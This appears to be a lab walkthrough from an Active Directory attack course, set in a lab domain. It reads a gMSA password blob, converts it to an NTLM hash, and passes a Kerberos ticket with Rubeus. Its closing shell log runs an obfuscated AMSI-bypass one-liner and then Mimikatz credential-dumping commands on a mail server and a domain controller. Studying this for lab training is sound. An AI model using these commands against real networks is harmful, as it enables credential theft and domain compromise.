 ```
```

In the new cmd session, run the following commands to get the password blob.

```
C:\Windows\system32> C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

[SNIP]

PS C:\Windows\system32> Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll

PS C:\Windows\system32> Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

```
PS C:\Windows\system32> $passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
```

Using the DSInternals module, let's decode the password and convert it to NTLM hash (as the clear-text password is not writable).

```
PS C:\Windows\system32> Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1

PS C:\Windows\system32> $decodedpwd = ConvertFrom-ADManagedPasswordBlob $passwordblob

PS C:\Windows\system32> ConvertTo-NTHash –Password $decodedpwd.SecureCurrentPassword

002280692be1ec66d62906c8d0556206 🔑
```

- Find if the gMSA has high privileges on any machine and extract credentials from that machine

Now we can start a new process with the privileges of `jumpone`.

```
C:\Windows\system32> echo %Pwn%

asktgt

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:jumpone /rc4:002280692be1ec66d62906c8d0556206 /opsec /force /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

[SNIP]

[*] Action: Ask TGT

[SNIP]

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/US.TECHCORP.LOCAL
  ServiceRealm             :  US.TECHCORP.LOCAL
  UserName                 :  jumpone$
  UserRealm                :  US.TECHCORP.LOCAL
  StartTime                :  4/27/2025 10:34:56 AM
  EndTime                  :  4/27/2025 8:34:56 PM
  RenewTill                :  5/4/2025 10:34:56 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  Thb7Qo1wMZnviuIV0Z0zv3mg8R0s+yIDXTca4ER0Odw=
  ASREP (key)              :  002280692BE1EC66D62906C8D0556206
```


[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'